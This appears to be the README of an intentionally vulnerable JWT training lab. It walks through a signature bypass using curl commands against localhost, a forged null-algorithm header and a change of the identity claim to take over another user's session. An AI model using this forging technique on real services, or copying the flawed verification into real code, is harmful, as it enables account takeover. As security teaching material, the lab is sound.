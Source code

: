 # Python-JWT-Hs256-None

JSON Web Token (JWT) is an open standard (RFC 7519) that defines a compact and self-contained way for securely transmitting information between parties as a JSON object. This information can be verified and trusted because it is digitally signed. JWTs can be signed using a secret (with the HMAC algorithm) or a public/private key pair using RSA.

https://jwt.io/

## Owasp

https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/JSON_Web_Token_for_Java_Cheat_Sheet.md


![Getting Started](20.png)


## SAST Tools : 


Find With SAST Tools : My Yml Script


![Getting Started](21.png)



## Setup

install from my dockerhub : https://hub.docker.com/r/mhnamadi/jwt-none


    docker run -ti -p 8008:5000 mhnamadi/jwt-none


## Payload 

* curl --header "Content-Type: application/json" --request POST --data '{"username":"admin","password":"admin"}' http://localhost:5000/auth


* curl -i -H "Accept: application/json" -H "Authorization: JWT " http://localhost:5000/protected

* Null cipher header: eyJ0eXAiOiJKV1QiLCAiYWxnIjoiTk9ORSJ9.

## Attack


1 . curl --header "Content-Type: application/json" --request POST --data '{"username":"user","password":"user"}' http://localhost:8008/auth

{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDQ4NTQyODUsImlhdCI6MTY0NDg1Mzk4NSwibmJmIjoxNjQ0ODUzOTg1LCJpZGVudGl0eSI6MX0.mBCLVmIjOQT4a596r7sHvKgPm60ZgZjXBzSGZPKLRp0"

2 . curl -i -H "Accept: application/json" -H "Authorization: JWT " http://localhost:8008/protected


3 . curl --header "Content-Type: application/json" --request POST --data '{"username":"user2","password":"user2"}' http://localhost:8008/auth

{
  "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDQ4NTQzNTcsImlhdCI6MTY0NDg1NDA1NywibmJmIjoxNjQ0ODU0MDU3LCJpZGVudGl0eSI6Mn0.6EdraNQoS8p9lsCzbmSm4XOEg4pQKwFfGoEq85le8sA"

4 . curl -i -H "Accept: application/json" -H "Authorization: JWT " http://localhost:8008/protected


5 . Change ID 1 to 2 and add Null payload on https://jwt.io/ 

6 . Add Null cipher header: eyJ0eXAiOiJKV1QiLCAiYWxnIjoiTk9ORSJ9. 


![Getting Started](11.png)

## Fix Hint :  

https://curity.io/resources/learn/jwt-best-practices/

## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 
 https://twitter.com/siavashvafshar
 
 https://twitter.com/Dmitriy_area51

    
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md
   
## Learn More 
    
    Using JWT? You need avoid these implementation mistakes

https://www.websecuritylens.org/common-jwt-implementation-mistakes-and-how-to-exploit-them/

    Critical vulnerabilities in JSON Web Token libraries

https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

    IDOR IN JWT AND THE SHORTEST TOKEN YOU WILL EVER SEE {}.{“uid”: “1234567890”}

https://infosecwriteups.com/idor-in-jwt-and-the-shortest-token-you-will-ever-see-uid-1234567890-4e02377ea03a

    Attacking JSON Web Tokens (JWTs)

https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb

    ATTACKING JWT FOR BEGINNERS!

https://www.youtube.com/watch?v=ghfmx4pr1Qg

https://github.com/h-a-c/jwt-lab

https://github.com/farah-hawa/Jwt-code

https://github.com/jmaxxz/jwtbrute

https://github.com/brendan-rius/c-jwt-cracker

    Hack JWT using JSON Web Tokens Attacker BurpSuite extensions

https://www.youtube.com/watch?v=SuDN35-aefY

    The-Hackers-Guide-to-JWT-Security.pdf

https://www.jfokus.se/jfokus20-preso/The-Hackers-Guide-to-JWT-Security.pdf

    Privilege Escalation like a Boss

https://medium.com/@janijay007/privilege-escalation-like-a-boss-7deb638a5c1b

    jwt_security_cheatsheet.pdf

https://assets.pentesterlab.com/jwt_security_cheatsheet/jwt_security_cheatsheet.pdf

    Jwt == insecurity?

https://www.slideshare.net/snyff/jwt-insecurity

## Report Bounty 

1. https://blog.assetnote.io/2022/01/17/workspace-one-access-ssrf/
2. https://infosecwriteups.com/hacktoberfest2k21-vulnerability-how-users-metadata-can-be-changed-via-auth-jwt-tokens-leaking-from-3028f8ad6991
3. https://infosecwriteups.com/eye-for-an-eye-unusual-single-click-jwt-token-takeover-2e58f88cf44d
4. https://www.shawarkhan.com/2019/01/hijacking-accounts-by-retrieving-jwt.html
5. https://infosecwriteups.com/idor-in-jwt-and-the-shortest-token-you-will-ever-see-uid-1234567890-4e02377ea03a
6. https://emtunc.org/blog/11/2017/jwt-refresh-token-manipulation/
7. https://medium.com/@andreashappe/jwt-signature-vs-mac-attacks-d44058b18bf8
8. https://blog.intigriti.com/2020/04/21/bug-bytes-67-hacking-containers-auth0-bypass-hussein98ds-methodologies/
9. https://insomniasec.com/blog/auth0-jwt-validation-bypass
10. https://hackerone.com/reports/896649
11. https://hackerone.com/reports/1210502
12. https://hackerone.com/reports/1103582
13. https://hackerone.com/reports/638635
14. https://hackerone.com/reports/853145
15. https://hackerone.com/reports/736522
16. https://hackerone.com/reports/895172
17. https://hackerone.com/reports/158330
18. https://hackerone.com/reports/748214
19. https://hackerone.com/reports/638635
20. [authmagic-timerange-stateless-core] Improper Authentication https://hackerone.com/reports/736522
21. [jitsi-meet] Authentication Bypass when using JWT w/ public keys https://hackerone.com/reports/1210502 https://github.com/jitsi/jitsi-meet/security/advisories/GHSA-45ff-37jm-xjfx

